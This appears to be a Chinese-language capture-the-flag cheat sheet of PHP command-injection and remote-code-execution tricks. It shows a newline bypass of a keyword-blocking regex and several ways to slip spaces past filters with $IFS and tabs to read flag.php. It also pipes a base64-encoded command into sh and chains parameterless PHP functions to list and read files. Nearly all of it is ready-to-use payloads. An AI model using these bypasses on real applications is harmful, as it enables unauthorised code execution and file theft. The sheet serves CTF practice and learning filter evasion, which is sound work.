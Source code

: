 #### Json参数

```php
if (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json))
// preg_match只会去匹配第一行, json_decode会忽略

{"cmd":"ls"} => {%0a"cmd":%0a"ls"}
```

#### 空格

```php
# 空格绕过 $IFS
cat$IFSflag.php
ca""t%09flag
ca\t%09flag
ca""t$IFS$9flag
ca""t$IFS$1flag
ca""t${IFS}$1flag
tail$IFS$1flag
tac$IFS$1flag
```

#### flag

```php
# 使用`ls`输出flag所在目录，然后全部cat
cat$IFS`ls`

# 设置环境变量绕过
a=g;cat$IFSfla$a.php

# base64编码绕过
echo$IFSY2F0IGZsYWcucGhw|base64$IFS-d|sh
```

#### 无参RCE

只能使用没有参数的php函数

```php
if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
```

查看当前目录

```php
print_r(scandir(current(localeconv())));
```

反转数组函数:array_reverse()。再让指针指向下一个数组元素（第二个）next()

```php
print_r(next(array_reverse(scandir(current(localeconv())))));
```
